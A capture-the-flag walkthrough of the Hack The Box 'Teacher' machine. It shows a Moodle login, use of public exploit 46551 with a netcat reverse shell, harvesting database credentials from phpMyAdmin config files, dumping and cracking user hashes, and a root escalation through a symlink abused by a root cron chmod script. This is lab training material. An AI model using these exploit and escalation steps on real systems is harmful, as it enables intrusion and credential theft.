




---
search:
  exclude: true
---
# Teacher Writeup

## Introduction :

Teacher is an easy Linux box that was released back in December 2018.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Teacher ]
      → nmap -F 10.10.10.153
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-06 17:19 CET
      Nmap scan report for 10.10.10.153
      Host is up (0.090s latency).
      Not shown: 99 closed ports
      PORT   STATE SERVICE
      80/tcp open  http
    
      Nmap done: 1 IP address (1 host up) scanned in 0.56 seconds
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Teacher ]
      → nmap -sCV -p80 10.10.10.153
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-06 17:20 CET
      Nmap scan report for 10.10.10.153
      Host is up (0.071s latency).
    
      PORT   STATE SERVICE VERSION
      80/tcp open  http    Apache httpd 2.4.25 ((Debian))
      |_http-server-header: Apache/2.4.25 (Debian)
      |_http-title: Blackhat highschool
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 9.16 seconds
    

## **Part 2 : Getting User Access**

Browsing to the http://10.10.10.153/ page, we are greeted with the webservice our nmap scan picked up. Let's run a dirbuster scan in order to enumerate which folders are available onto this webservice.
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Teacher ]
    → dirsearch -u http://10.10.10.153/ -e php -x 403 -r
    
     _|. _ _  _  _  _ _|_    v0.3.9
    (_||| _) (/_(_|| (_| )
    
    Extensions: php | HTTP method: get | Threads: 10 | Wordlist size: 6027
    
    Error Log: /home/nihilist/.dirsearch/logs/errors-19-12-06_17-40-41.log
    
    Target: http://10.10.10.153/
    
    

While the dirsearch scan runs in the background, we will be Navigating to the gallery.html page we see something odd :

    
    
    ****λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Teacher ]
    → curl -sk http://10.10.10.153/gallery.html | grep png <****li> <****a href="#"> <****img src="images/5.png" onerror="console.log('That\'s an F');" alt=""> <****/a> <****/li> <****li> <****a href="#"> <****img src="images/5_2.png" alt=""> <****/a> <****/li> <****li> <****a href="#"> <****img src="images/5_3.png" alt=""> <****/a> <****/li>
                      [...]

Interesting ! there seems to be a problem with the image 5.png. let's download it and see what's up with it.
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Teacher ]
    → wget http://10.10.10.153/images/5.png
    --2019-12-06 17:31:30--  http://10.10.10.153/images/5.png
    Connecting to 10.10.10.153:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 200 [image/png]
    Saving to: ‘5.png’
    
    5.png                        100%[============================================>]     200  --.-KB/s    in 0s
    
    2019-12-06 17:31:31 (8.23 MB/s) - ‘5.png’ saved [200/200]
    
    
    λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Teacher ]
    → file 5.png
    5.png: ASCII text
    

That's why the image wasn't working ! it was actually an ASCII text file. Let's print out it's contents using the cat command.
    
    
    λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Teacher ]
    → cat 5.png
    Hi Servicedesk,
    
    I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.
    
    Could you guys figure out what the last charachter is, or just reset it?
    
    Thanks,
    Giovanni
    
    

We seem to have a password to work with: **Th4C00lTheacha** although it seems to be missing the last character according to the message. Creating a wordlist with all the possible passwords with python and then giving it to hydra we get the password **Th4C00lTheacha#**

During this time , our dirsearch scan came back with a few results :
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Teacher ]
    → dirsearch -u http://10.10.10.153/ -e php -x 403-r
    
     _|. _ _  _  _  _ _|_    v0.3.9
    (_||| _) (/_(_|| (_| )
    
    Extensions: php | HTTP method: get | Threads: 10 | Wordlist size: 6027
    
    Error Log: /home/nihilist/.dirsearch/logs/errors-19-12-06_17-40-41.log
    
    Target: http://10.10.10.153/
    
    [17:40:41] Starting:
    
    [17:41:05] 301 -  310B  - /css  ->  http://10.10.10.153/css/
    [17:41:10] 301 -  312B  - /fonts  ->  http://10.10.10.153/fonts/
    [17:41:13] 301 -  313B  - /images  ->  http://10.10.10.153/images/
    [17:41:13] 200 -    8KB - /index.md
    [17:41:14] 301 -  317B  - /javascript  ->  http://10.10.10.153/javascript/
    [17:41:15] 301 -  309B  - /js  ->  http://10.10.10.153/js/
    [17:41:18] 301 -  313B  - /manual  ->  http://10.10.10.153/manual/
    [17:41:18] 200 -  626B  - /manual/index.md
    [17:41:19] 301 -  313B  - /moodle  ->  http://10.10.10.153/moodle/
    
    
    Task Completed
    
    

Dirsearch came back with an interesting result : /moodle

Navigating onto the moodle login page, we are greeted with a login form onto which we'll try our credentials for the user giovanni.

 

And we are logged in ! now let's see if we can find an exploit for the moodle webservice using the searchsploit command.
    
    
    λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Teacher ]
    → searchsploit moodle
    ------------------------------ ----------------------------------------
     Exploit Title                |  Path
                                  | (/usr/share/exploitdb/)
    ------------------------------ ----------------------------------------
    Mambo Component Mam-Moodle al | exploits/php/webapps/2064.txt
    Moodle - Remote Command Execu | exploits/linux/remote/29324.rb
    Moodle 1.1/1.2 - Cross-Site S | exploits/php/webapps/24071.txt
    Moodle 1.5.2 - 'moodledata' R | exploits/php/webapps/3508.txt
    Moodle 1.5/1.6 - '/mod/forum/ | exploits/php/webapps/29284.txt
    Moodle 1.6dev - SQL Injection | exploits/php/webapps/1312.php
    Moodle 1.7.1 - 'index.php' Cr | exploits/php/webapps/30261.txt
    Moodle 1.8.3 - 'install.php'  | exploits/php/webapps/31020.txt
    Moodle 1.8.4 - Remote Code Ex | exploits/php/webapps/6356.php
    Moodle 1.9.3 - Remote Code Ex | exploits/php/webapps/7437.txt
    Moodle 1.x - 'post.php' Cross | exploits/php/webapps/24356.txt
    Moodle 2.0.1 - 'PHPCOVERAGE_H | exploits/php/webapps/35297.txt
    Moodle 2.3.8/2.4.5 - Multiple | exploits/php/webapps/28174.txt
    Moodle 2.5.9/2.6.8/2.7.5/2.8. | exploits/php/webapps/36418.txt
    Moodle 2.7 - Persistent Cross | exploits/php/webapps/34169.txt
    Moodle 2.x/3.x - SQL Injectio | exploits/php/webapps/41828.php
    **Moodle 3.4.1 - Remote Code Ex | exploits/php/webapps/46551.php**
    Moodle 3.6.3 - 'Install Plugi | exploits/php/remote/46775.rb
    Moodle < 1.6.9/1.7.7/1.8.9/1. | exploits/php/webapps/8297.txt
    Moodle Blog 1.18.2.2/1.6.2 Mo | exploits/php/webapps/28770.txt
    Moodle Filepicker 3.5.2 - Ser | exploits/php/webapps/47177.txt
    Moodle Help Script 1.x - Cros | exploits/php/webapps/24279.txt
    Moodle Jmol Filter 6.1 - Dire | exploits/php/webapps/46881.txt
    ------------------------------ ----------------------------------------
    Shellcodes: No Result
    

The php exploit number 46551 seems to be the most recent Remote Code Execution exploit available for our target, let's locate it, and copy it onto our current directory in order to see if we can get it to work.
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Teacher ]
      → locate 46551.php
      /usr/share/exploitdb/exploits/php/webapps/46551.php
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Teacher ]
      → cp /usr/share/exploitdb/exploits/php/webapps/46551.php .
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Teacher ]
      → php 46551.php
      PHP Notice:  Undefined index: url in /home/nihilist/_HTB/Teacher/46551.php on line 503
      PHP Notice:  Undefined index: user in /home/nihilist/_HTB/Teacher/46551.php on line 504
      PHP Notice:  Undefined index: pass in /home/nihilist/_HTB/Teacher/46551.php on line 505
      PHP Notice:  Undefined index: ip in /home/nihilist/_HTB/Teacher/46551.php on line 506
      PHP Notice:  Undefined index: port in /home/nihilist/_HTB/Teacher/46551.php on line 507
      PHP Notice:  Undefined index: course in /home/nihilist/_HTB/Teacher/46551.php on line 508
    
      *------------------------------*
      * Noodle [Moodle RCE] (v3.4.1) *
      *------------------------------*
    
      [!] Make sure you have a listener
      [!] at :
    
      [*] Logging in as user  with password
      [-] LOGIN FAILED!
      [?] Do you have the right credentials and url?
    

Seems like we need to set the url, user, pass, ip, port and course flags. Before we run it , we will setup another terminal with the nc command ready in order to catch the incoming reverse shell connection onto our 9005th port.

_Terminal 1:_
    
    
      λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Teacher] → nc -lvnp 9005
    

_Terminal 2:_
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Teacher ]
      → sudo php 46551.php url=http://10.10.10.153/moodle/ user=giovanni pass=Th4C00lTheacha# ip=10.10.14.48 port=9005 course=2
    
    
      [sudo] password for nihilist:
    
      *------------------------------*
      * Noodle [Moodle RCE] (v3.4.1) *
      *------------------------------*
    
      [!] Make sure you have a listener
      [!] at 10.10.14.48:9005
    
      [*] Logging in as user giovanni with password Th4C00lTheacha#
      [+] Successful Login
      [>] Moodle Session v3di0tkljnuh8uepnsq5buenf0
      [>] Moodle Key 4JU4ADDZN7
      [*] Loading Course ID 2
      [+] Successfully Loaded Course
      [*] Enable Editing
      [+] Successfully Enabled Course Editing
      [*] Adding Quiz
      [+] Successfully Added Quiz
      [*] Configuring New Quiz
      [+] Successfully Configured Quiz
      [*] Loading Edit Quiz Page
      [+] Successfully Loaded Edit Quiz Page
      [*] Adding Calculated Question
      [+] Successfully Added Calculation Question
      [*] Adding Evil Question
      [+] Successfully Created Evil Question
      [*] Sending Exploit
    
      [>] You should receive a reverse shell attempt from the target at 10.10.14.48 on port 9005
      [>] If connection was successful this program will wait here until you close the connection.
      [>] You should be able to Ctrl+C and retain the connection through netcat.
    
    

_Terminal 1:_
    
    
      λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Teacher] → nc -lvnp 9005
    Connection from 10.10.10.153:41844
    /bin/sh: 0: can't access tty; job control turned off
    $ python -c 'import pty;pty.spawn("/bin/bash")'
    
    www-data@teacher:/var/www/html/moodle/question$ cat /home/giovanni/user.txt
    cat /home/giovanni/user.txt
    cat: /home/giovanni/user.txt: Permission denied
    

And we are logged in ! Although we do not have enough permissions to read the user flag. Looking within the /etc folder we see that there is phpmyadmin, entering the directory we run the grep command with the -r flag onto the dbuser and dbpass file
    
    
    www-data@teacher:/etc$ cd /etc/phpmyadmin
    cd /etc/phpmyadmin
    
    www-data@teacher:/etc/phpmyadmin$ grep -r
    grep -r
    Usage: grep [OPTION]... PATTERN [FILE]...
    Try 'grep --help' for more information.
    
    www-data@teacher:/etc/phpmyadmin$ grep -r dbuser
    grep -r dbuser
    config.inc.php:    $cfg['Servers'][$i]['controluser'] = $dbuser;
    config-db.php:$dbuser='phpmyadmin';
    
    www-data@teacher:/etc/phpmyadmin$ grep -r dbpass
    grep -r dbpass
    config.inc.php:    $cfg['Servers'][$i]['controlpass'] = $dbpass;
    config-db.php:$dbpass='Welkom1!';
    

And we have credentials ! phpmyadmin:Welkom1! let's login onto the local mariaDB service.
    
    
      www-data@teacher:/etc/phpmyadmin$ mysql -u root -p
      mysql -u root -p
      Enter password: Welkom1!
    
      Welcome to the MariaDB monitor.  Commands end with ; or \g.
      Your MariaDB connection id is 93
      Server version: 10.1.26-MariaDB-0+deb9u1 Debian 9.1
    
      Copyright (c) 2000, 2017, Oracle, MariaDB Corporation Ab and others.
    
      Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
    
      MariaDB [(none)]>
    

And we are logged into MariaDB ! Now let's see which databases we are able to work with.
    
    
      MariaDB [(none)]> show databases;
      show databases;
      +--------------------+
      | Database           |
      +--------------------+
      | information_schema |
      | moodle             |
      | mysql              |
      | performance_schema |
      | phpmyadmin         |
      +--------------------+
      5 rows in set (0.00 sec)
    

Let's see which tables are contained within the phpmyadmin database.
    
    
      MariaDB [(none)]> use moodle;
      use moodle;
      Reading table information for completion of table and column names
      You can turn off this feature to get a quicker startup with -A
    
      Database changed
      MariaDB [moodle]> show tables;
      show tables;
      +----------------------------------+
      | Tables_in_moodle                 |
      +----------------------------------+
      | mdl_analytics_indicator_calc     |
      | mdl_analytics_models             |
      | mdl_analytics_models_log         |
      | mdl_analytics_predict_samples    |
      | mdl_analytics_prediction_actions |
      | mdl_analytics_predictions        |
      | mdl_analytics_train_samples      |
      | mdl_analytics_used_analysables   |
      | mdl_analytics_used_files         |
      | mdl_assign                       |
    
      [...]
    
      | **mdl_user**                         |
    
      [...]
    
      | mdl_workshopform_rubric          |
      | mdl_workshopform_rubric_config   |
      | mdl_workshopform_rubric_levels   |
      +----------------------------------+
      388 rows in set (0.00 sec)
    

Looking at the results, we get alot of tables to work with, but there is one in particular that we'll be using which is the mdl_user table. 
    
    
      MariaDB [moodle]> select username,password from mdl_user;
    select username,password from mdl_user;
    +-------------+--------------------------------------------------------------+
    | username    | password                                                     |
    +-------------+--------------------------------------------------------------+
    | guest       | $2y$10$ywuE5gDlAlaCu9R0w7pKW.UCB0jUH6ZVKcitP3gMtUNrAebiGMOdO |
    | admin       | $2y$10$7VPsdU9/9y2J4Mynlt6vM.a4coqHRXsNTOq/1aA6wCWTsF2wtrDO2 |
    | giovanni    | $2y$10$38V6kI7LNudORa7lBAT0q.vsQsv4PemY7rf/M1Zkj/i1VqLO0FSYO |
    | Giovannibak | 7a860966115182402ed06375cf0a22af                             |
    +-------------+--------------------------------------------------------------+
    4 rows in set (0.00 sec)
    

There we go ! We have hashed passwords to work with. The last hash is shorter than the others, we'll use hash-identifier in order to see if we can guess the format of the hash.
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Teacher ]
      → hash-identifier
         #########################################################################
         #     __  __                     __           ______    _____           #
         #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
         #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
         #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
         #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
         #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
         #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
         #                                                             By Zion3R #
         #                                                    www.Blackploit.com #
         #                                                   Root@Blackploit.com #
         #########################################################################
      --------------------------------------------------
       HASH: 7a860966115182402ed06375cf0a22af
    
      Possible Hashs:
      [+] MD5
      [+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
    

Looking at the results, we seem to have a MD5 encrypted hash to work with, let's google the hash with the keyword MD5 in order to see if google knows the original password that was there before the md5 hashing.

And there we have it ! the password was "expelled" Now let's see if we can login as the giovanni user.
    
    
      www-data@teacher:/etc/phpmyadmin$ su giovanni
    su giovanni
    Password: expelled
    
    giovanni@teacher:/etc/phpmyadmin$ cat /home/giovanni/user.txt
    cat /home/giovanni/user.txt
    faXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And there we go ! We now have been able to login as giovanni, and therefore we now have enough privileges to print out the user flag. 

## **Part 3 : Getting Root Access**

In order to get the root access, we first start poking around the /usr/bin/ folder and we find something interesting when we grep the result of the ls command with the keyword "backup"
    
    
      giovanni@teacher:/etc/phpmyadmin$ ls -la /usr/bin | grep backup
      ls -la /usr/bin | grep backup
      -rwxr-xr-x  1 root root         138 Jun 27  2018 backup.sh
      -rwxr-xr-x  1 root root    17879752 Aug 10  2017 mariabackup
      -rwxr-xr-x  1 root root       32066 Aug 10  2017 wsrep_sst_mariabackup
      -rwxr-xr-x  1 root root       21662 Aug 10  2017 wsrep_sst_xtrabackup
      -rwxr-xr-x  1 root root       31670 Aug 10  2017 wsrep_sst_xtrabackup-v2
    
    giovanni@teacher:/etc/phpmyadmin$ cat /usr/bin/backup.sh
    cat /usr/bin/backup.sh
    #!/bin/bash
    cd /home/giovanni/work;
    tar -czvf tmp/backup_courses.tar.gz courses/*;
    cd tmp;
    tar -xf backup_courses.tar.gz;
    chmod 777 * -R;
    

It seems like the backup.sh script is being run with root privileges, One important part of the script is that it is running the **chmod 777 *** command within the /tmp folder. Therefore we just have to create a shortcut to the root folder into the /home/giovanni/work/tmp folder, Once the script is being run, we should have access to the root directory and it's contents.
    
    
      giovanni@teacher:~/work/tmp$ ln -s / caca
    ln -s / caca
    giovanni@teacher:~/work/tmp$ ls
    ls
    backup_courses.tar.gz  caca  courses
    giovanni@teacher:~/work/tmp$ cd /
    cd /
    giovanni@teacher:/$ ls -la
    ls -la
    total 84
    drwxr-xr-x 22 root root  4096 Oct 28  2018 .
    drwxr-xr-x 22 root root  4096 Oct 28  2018 ..
    drwxr-xr-x  2 root root  4096 Oct 28  2018 bin
    drwxr-xr-x  3 root root  4096 Oct 28  2018 boot
    drwxr-xr-x 17 root root  3080 Dec  6 17:19 dev
    drwxr-xr-x 84 root root  4096 Oct 28  2018 etc
    drwxr-xr-x  3 root root  4096 Jun 27  2018 home
    lrwxrwxrwx  1 root root    29 Oct 28  2018 initrd.img -> boot/initrd.img-4.9.0-8-amd64
    lrwxrwxrwx  1 root root    29 Oct 28  2018 initrd.img.old -> boot/initrd.img-4.9.0-6-amd64
    drwxr-xr-x 15 root root  4096 Jun 27  2018 lib
    drwxr-xr-x  2 root root  4096 Jun 27  2018 lib64
    drwx------  2 root root 16384 Jun 27  2018 lost+found
    drwxr-xr-x  3 root root  4096 Jun 27  2018 media
    drwxr-xr-x  2 root root  4096 Jun 27  2018 mnt
    drwxr-xr-x  2 root root  4096 Jun 27  2018 opt
    dr-xr-xr-x 92 root root     0 Dec  6 17:19 proc
    drwx------  3 root root  4096 Nov  4  2018 root
    drwxr-xr-x 18 root root   500 Dec  6 17:20 run
    drwxr-xr-x  2 root root  4096 Oct 28  2018 sbin
    drwxr-xr-x  2 root root  4096 Jun 27  2018 srv
    dr-xr-xr-x 13 root root     0 Dec  6 18:51 sys
    drwxrwxrwt  2 root root  4096 Dec  6 18:51 tmp
    drwxr-xr-x 10 root root  4096 Jun 27  2018 usr
    drwxr-xr-x 12 root root  4096 Jun 27  2018 var
    lrwxrwxrwx  1 root root    26 Oct 28  2018 vmlinuz -> boot/vmlinuz-4.9.0-8-amd64
    lrwxrwxrwx  1 root root    26 Oct 28  2018 vmlinuz.old -> boot/vmlinuz-4.9.0-6-amd64
    giovanni@teacher:/$
    

Wait a minute for the cronjob to execute the script, which should change every folder to the 777 permissions 
    
    
      drwxrwxrwx  2 root root  4096 Oct 28  2018 bin
    drwxrwxrwx  3 root root  4096 Oct 28  2018 boot
    drwxrwxrwx 17 root root  3080 Dec  6 17:19 dev
    drwxrwxrwx 84 root root  4096 Oct 28  2018 etc
    drwxrwxrwx  3 root root  4096 Jun 27  2018 home
    lrwxrwxrwx  1 root root    29 Oct 28  2018 initrd.img -> boot/initrd.img-4.9.0-8-amd64
    lrwxrwxrwx  1 root root    29 Oct 28  2018 initrd.img.old -> boot/initrd.img-4.9.0-6-amd64
    drwxrwxrwx 15 root root  4096 Jun 27  2018 lib
    drwxrwxrwx  2 root root  4096 Jun 27  2018 lib64
    drwxrwxrwx  2 root root 16384 Jun 27  2018 lost+found
    drwxrwxrwx  3 root root  4096 Jun 27  2018 media
    drwxrwxrwx  2 root root  4096 Jun 27  2018 mnt
    drwxrwxrwx  2 root root  4096 Jun 27  2018 opt
    drwxrwxrwx 92 root root     0 Dec  6 17:19 proc
    drwxrwxrwx  3 root root  4096 Nov  4  2018 root
    drwxrwxrwx 18 root root   500 Dec  6 17:20 run
    drwxrwxrwx  2 root root  4096 Oct 28  2018 sbin
    drwxrwxrwx  2 root root  4096 Jun 27  2018 srv
    drwxrwxrwx 13 root root     0 Dec  6 18:51 sys
    drwxrwxrwx  2 root root  4096 Dec  6 18:51 tmp
    drwxrwxrwx 10 root root  4096 Jun 27  2018 usr
    drwxrwxrwx 12 root root  4096 Jun 27  2018 var
    lrwxrwxrwx  1 root root    26 Oct 28  2018 vmlinuz -> boot/vmlinuz-4.9.0-8-amd64
    lrwxrwxrwx  1 root root    26 Oct 28  2018 vmlinuz.old -> boot/vmlinuz-4.9.0-6-amd64
    

See how every folder has got it's permissions changed , now we should be able to navigate into /root and print out the root flag.
    
    
    giovanni@teacher:/$ cd root
    cd root
    giovanni@teacher:/root$ cat root.txt
    cat root.txt
    4fXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we got the root flag now. 

## **Conclusion**

Here we can see the progress graph :

